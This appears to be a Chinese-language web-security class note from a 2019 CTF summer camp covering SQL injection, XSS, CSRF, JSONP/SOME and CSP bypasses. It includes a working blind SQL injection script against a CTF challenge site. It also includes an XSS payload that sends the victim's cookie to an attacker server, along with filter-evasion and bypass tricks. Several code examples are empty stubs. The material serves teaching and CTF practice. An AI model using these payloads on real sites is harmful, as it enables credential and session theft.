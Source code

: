 ```yaml
---
title: "Web Day2"
date: 2019-07-30T11:01:03+08:00
tags: [""]
categories: ["系统理论课程", "Xman3夏令营"]
---
```



## sql注入

- sql盲注脚本

  ```python
  import requests
  import re
  import sys
  p = re.compile(r'''ID: (.+?)&nbspx:''')
  ans = ''
  for pos in range(1,33):
      l = 0
      r = 127
      cookies = {"PHPSESSID":"tf7511brt2272n9ne5i8dj6o35"}
      data = {"x": "1", "y": "1"}
      while l<r:
          mid = int((l+r)/2)
          resp = requests.post(
              "https://web.ctflearn.com/grid/controller.php?action=add_point", data=data, cookies=cookies).text
          resp = requests.get("https://web.ctflearn.com/grid/", cookies=cookies).text
          _id = p.search(resp).group(1)
          payload = _id +  ' and ord(mid((select password from user where username="admin" limit 0, 1), ' +  str(pos) + ',1))>' + str(mid)
          length = len(payload)
          resp = requests.get('''https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:'''+str(length)+''':"%s";}'''%payload,cookies=cookies,allow_redirects=False).text
          resp = requests.get("http://web.ctflearn.com/grid/",cookies=cookies).text
          if _id not in resp:
              l = mid+1
          else:
              r = mid
      if l==0:
          break
      ans = ans + chr(l)
      print(ans)
  ```

## XSS攻击与防御

### Cookie

- 获取cookie的方法：浏览器端（客户端） &rarr; document.cookie；服务器端（PHP） &rarr; $_COOKIE[]
- PS：服务器端的一个响应包中只能包含一个set-cookie
- Chrome的Windows Cookie的位置：AppData\Local...
- Cookie属性 &rarr; 分号分隔的键值对
  - domain只可以设置为页面本身或其子页面、不能设置为顶级域名

### XSS漏洞

- 简介：攻击者可以在页面上插入html代码，通过javaScript得到受害者信息。分类：
  1. 反射性：用户请求的中的参数直接输出到了页面中，形成XSS
  2. 存储性（评论功能）：将用户提交的评论存储在数据库的表中 &rarr; 从数据库中取出来直接显示在评论区中
  3. *DOM性*：页面中的源码中并无XSS攻击向量
- 危害：窃取信息、XSS蠕虫、命令执行
  - 命令执行：特权域XSS &rarr; WooYun-2016-170984；沙盒绕过 &rarr; CVE-2017-12581
- 编码：
  - HTML实体编码：符号的功能性编码与显示编码分离 &rarr; DOM元素的属性值会自动解码HTML编码
  - URL编码：后端需要进行一个decode
  - 页面编码：利用gbk编码漏洞 &rarr; 转移符`\`在gbk中的低字节位，如果在前面插入一个单字节高位字节，组合成一个合法字符，可以用于逃逸`\`
- XSS漏洞注入点
- XSS注入的一些小trick：
  1. 过滤`"."`，使用with语句；过滤`';'`，用换行
  2. url协议头可以去掉，如//example.com(http)
  3. HTML实体编码中，`';'`可以去掉
  4. 可以利用拼接eval函数执行代码，例如：`"a"+eval("alert(1)")`
- *hidden元素XSS*

### CTF中的XSS题目

- 绕过（例子：HCTF2016 guestbook）

- 课上习题2：

  - 爆破md5：

  ```php
  <?php
      $i = 0;
      while(1){
          if(substr(md5($i),0,6) === '966150')
              break;
          $$i = $$i +1;
      }
      echo $i;
  ?>
  ```

  - Payload：

  ```html
  <script>
      with(document){
          location=`//760096541/`+escape(cookie)
      }
  </script>
  ```

  - 过滤了字符 `.` 使用 `with(){}` 指定作用域，地址转化为十进制（该十进制为指定的自己的服务器，在自己的服务器上可以得到cookie参数）

### XSS防御

- Chrome XSS Filter
- 过滤（不安全）
- 转义和编码 &rarr; 较安全的方法：编码（转成实体编码）
- HttpOnly &rarr; 后端代码中可以将Cookie添加一个给HttpOnly属性，这样就不会被前端的JS读取到

## CSRF攻击与防御

- CSRF: Cross-Site Request Forgery

### CSRF攻击

- 攻击分类：GET型、POST型、伪造请求、JSON
  - 307跳转：307跳转可以不改变请求主体，只改变请求目标。现在自己的服务器上放置一个main.html，包含产生307的flash，在统计
- CSRF绕过：
  - 空Referer &rarr; get请求、data协议、https向http跳转
  - Referer前缀绕过。比如检测前缀`https://www.qq.com`，可以自己注册域名`https://www.qq.comxx.xx`

### CSRF防御

- 方式：验证码、添加token、Referer

## 同源分析

- 源：协议 + 域名 + 端口

### 跨域方式

- Ajax：可以发送请求，但是不能带cookie

- CORS &rarr; 跨域资源共享
- windows.name可以跨域
- Jsonp &rarr; 可以实现从其他网站获取数据。数据包中的content是可控的。
  - a页面希望或许b页面的数据 &rarr; a向b发送一个jsonp请求 &rarr; 调用a页面中定义的CallBack函数

### jsonp攻击方式 &rarr; SOME攻击

SOME攻击：用户访问a.com可以实现在b.com上执行javascript

- http://b.com/index.html

```html
<form>
    <button onclick="c()">Secret Button</button>
</form>
<script>
    function c() {alert("click!");}
</script>
```

- http://b.com/jsonp.php

```php
<?php
    ?>
```



- http://a.com/some1.html
- http://a.com/some2.html

```html

```

### CSP &rarr; content-src-policy

CSP绕过：

- url跳转：在default-src为'none'的情况下，可以使用meta标签实现跳转
- 标签预加载：CSP对link标签的预加载考虑不完善
- 利用浏览器补全
- 代码重用 &rarr; Blackhat2017上有篇ppt总结了可以被用来绕过CSP的一些JS库
- iframe &rarr; 如果同源的其他页面内没有CSP限制，则可以利用没有限制的页面实现绕过CSP
- meta标签 &rarr; meta可以控制缓存（在header没有设置的情况下），有时可以用来绕过CSP nonce
